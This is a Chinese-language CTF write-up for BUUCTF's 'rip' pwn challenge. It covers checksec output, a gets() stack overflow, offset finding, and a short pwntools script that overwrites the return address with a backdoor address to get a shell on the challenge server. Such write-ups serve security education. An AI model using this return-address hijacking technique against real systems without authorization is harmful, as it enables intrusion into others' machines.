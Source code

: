 ```yaml
---
author: 
  name: Zephyr
title: rip
date: 2022-3-19 17:12:01
permalink: /pages/1e844742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![rip2131](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/rip2131.png)

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

![sadad2312](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/sadad2312.png)

## 思路分析

本题没有开启PIE,可以通过采用栈溢出将原来函数的返回地址覆盖为后门函数的地址，完成劫持程序流获得shell

## 确定偏移量

使用cyclic，简单测试一下即可得知本题偏移量为23

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```